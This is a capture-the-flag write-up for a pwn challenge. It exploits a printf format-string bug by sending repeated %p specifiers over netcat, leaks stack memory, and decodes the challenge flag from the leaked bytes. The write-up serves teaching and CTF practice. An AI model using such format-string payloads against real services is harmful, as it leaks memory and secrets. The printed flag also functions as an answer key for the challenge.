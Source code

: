 # Print a Card

- Category: `pwn`
- Challenge author: **Björn Österman**

## Description

Print that Santa

### Connection info

```sh
nc 2021.santahack.xyz 42001
```

## Writeup

When this program is run the flag is read from file and added to a local char-buffer variable that will then be stored on the stack.

printf allows you to send more specifiers then actual arguments used, making it possible to read data from the stack. Best way here is to use the %p which will read the value as a pointer with the same size as the architecture it is compiled for. In this case 64-bit (or 8 bytes)

you can specify 24 instances of the %p

```console
bjorn@LECOMPUTER:~/repos/iver_ctf_2021/challs/print_card$ nc 2021.santahack.xyz 42001
What is your elf name?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Wellcome 0x7ffcd6c2f0c00xffffffff(nil)0x9(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x40000000a(nil)0x6e7b73616d7861680x5f6b636174735f6f0x5f737465726365730x6972705f6d6f72660x7d66746e(nil)(nil)0x7f5d80ce55c00x63f2a00x10x1
Let me print a card for you :-)

bjorn@LECOMPUTER:~/repos/iver_ctf_2021/challs/print_card$
```

Here you can se the actual string with the %p's (0x7025702570257025)*3
And then the 0x6e7b73616d7861680x5f6b636174735f6f0x5f737465726365730x6972705f6d6f72660x7d66746e
If you clean that up by removing the '0x' parts and reversing the pieces you get:
'7d66746e6972705f6d6f72665f737465726365735f6b636174735f6f6e7b73616d786168'
and the using 'pwn unhex' and 'rev':

```console
$ pwn unhex 7d66746e6972705f6d6f72665f737465726365735f6b636174735f6f6e7b73616d786168 | rev
haxmas{no_stack_secrets_from_printf}
```